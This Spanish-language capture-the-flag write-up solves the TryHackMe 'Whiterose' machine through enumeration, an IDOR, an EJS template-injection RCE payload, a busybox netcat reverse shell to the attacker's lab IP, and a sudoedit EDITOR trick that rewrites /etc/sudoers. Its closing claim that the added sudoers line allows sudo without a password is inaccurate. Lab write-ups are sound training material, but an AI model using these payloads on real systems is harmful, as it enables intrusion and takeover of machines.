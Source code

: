 22-02-2025 20:11
Status: #idea
Tags: [[Writeups]]

# Whiterose

Se nos indica al principio que el usuario Olivia Cortez con la contraseña olivi8 serán útiles a lo largo de la máquina.

Tras un escaneo de nmap, podemos determinar que los puertos 80 y 22 están abiertos, teniendo así los servicios de SSH y Nginx activos.

```shell
nmap -sC -sV -O --osscan-guess 10.10.170.109

Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-22 19:32 GMT
Nmap scan report for cyprusbank.thm (10.10.170.109)
Host is up (0.00035s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:12:8D:60:9B:2F (Unknown)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 3.8 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ )
```

Las versiones de estos servicios son OpenSSH 7.6p1 Ubuntu 4ubuntu0.7, y nginx/1.14.0 respectivamente.

El sistema operativo de la máquina es Linux.

Al acceder a la web veremos un mensaje de mantenimiento.

![[Pasted image 20250222203344.png]]

## Enumeración

### Directorios

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://cyprusbank.thm/FUZZ -ic
```

Con esta búsqueda no se ha encontrado nada, por lo tanto paso a hacer enumeración de VHOSTS.

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://cyprusbank.thm -H 'Host: FUZZ.cyprusbank.thm' -ic -mc all -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 57
 :: Filter           : Response words: 1
 :: Filter           : Response lines: 4
________________________________________________

www                     [Status: 200, Size: 252, Words: 19, Lines: 9]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1]
WWW                     [Status: 200, Size: 252, Words: 19, Lines: 9]
:: Progress: [4997/4997] :: Job [1/1] :: 13044 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

Como vemos, admin llama a la atención, por lo tanto editaremos el archivo /etc/hosts, para poder acceder.

Una vez accedemos, hay un panel de administración.

![[Pasted image 20250222204508.png]]

Si probamos a usar las credenciales que nos han indicado anteriormente en la sala, obtendremos acceso al panel.

![[Pasted image 20250222205606.png]]

Los datos que vemos en el panel están censurados, por lo que no podremos ver el número de teléfono de Tyrell.

Si accedemos a la sección de mensajes, veremos una url con un parámetro interesante. Si lo cambiamos, haremos un IDOR y obtendremos las credenciales de una cuenta de administrador.

Con esto ya podremos obtener el número de teléfono de Tyrell.

Si accedemos al apartado de settings, e interceptamos la request, podremos jugar con los parámetros y ver que podemos producir un error 500 que mostrará una traza interesante:

```text
ReferenceError: /home/web/app/views/settings.ejs:14
    12|         <div class="alert alert-info mb-3"><%= message %></div>
    13|       <% } %>
 >> 14|       <% if (password != -1) { %>
    15|         <div class="alert alert-success mb-3">Password updated to '<%= password %>'</div>
    16|       <% } %>
    17|       <% if (typeof error != 'undefined') { %>

password is not defined
    at eval ("/home/web/app/views/settings.ejs":27:8)
    at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)
    at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)
    at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)
    at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)
    at /home/web/app/routes/settings.js:27:7
    at processTicksAndRejections (node:internal/process/task_queues:96:5)
```

Llama la atención el archivo settings.ejs, si buscamos algún tipo de exploit con referencia a esto, podremos vulnerar la máquina.

Y para nuestra suerte, hay un CVE que nos permite ejecutar comandos (RCE) en la máquina.

Con este payload podremos ejecutar el comando "whoami":

```http
name=test&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');&password=test
```

Al poder ejecutar este tipo de comandos, podríamos conseguir una reverse shell, lo que nos permitiría ejecutar comandos directamente en la máquina sin necesidad de interactuar a través de requests.

Con el siguiente payload podremos recibir la conexión en nuestro listener:

```shell
nc -lvnp 4444
name=test&password=&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.10.150.123 4444 -e sh');s
```

Posteriormente vamos a ver como en nuestro netcat se recibe una conexión, y podremos spawnear una shell con python o de otras maneras:

```shell
root@ip-10-10-150-123:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.0 38318
python3 -c 'import pty; pty.spawn("/bin/bash")'
web@cyprusbank:~/app$ 

web@cyprusbank:~/app$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)

```

Si seguimos investigando dentro de los directorios de nuestro servidor, veremos la flag de user.txt:

```shell
web@cyprusbank:~/app$ cd ..
cd ..
web@cyprusbank:~$ ls
ls
app  user.txt
web@cyprusbank:~$ cat user.txt
cat user.txt
THM{XXXXXXXXXXXXX}
web@cyprusbank:~$ 
```

Para ver que comandos puede ejecutar nuestro usuario, haremos sudo -l y vemos que tenemos permisos para ejecutar sudoedit:

```shell
web@cyprusbank:~/app$ sudo -l     
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

A partir de aquí tenemos que ver como explotar la máquina y aprovecharnos de esto.

Vemos que hay un exploit que podemos hacer que nos permitiría tener privilegios como root:

```shell
export EDITOR="vim -- /etc/sudoers"
```

Esto nos permitirá abrir vim con el fichero /etc/sudoers cuando abramos el archivo /etc/nginx/sites-available/admin.cyprusbank.thm.

Ahora solo nos faltará hacer esto:

```shell
web ALL=(ALL:ALL) ALL
```

Y ya podríamos hacer sudo su sin contraseña necesaria :).

Solo nos faltaría encontrar el archivo root.txt, ver su contenido y ya tenemos nuestra sala terminada.

Esta flag se encontrará dnetro de /root, con un cat ya tendremos nuestra flag.


---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
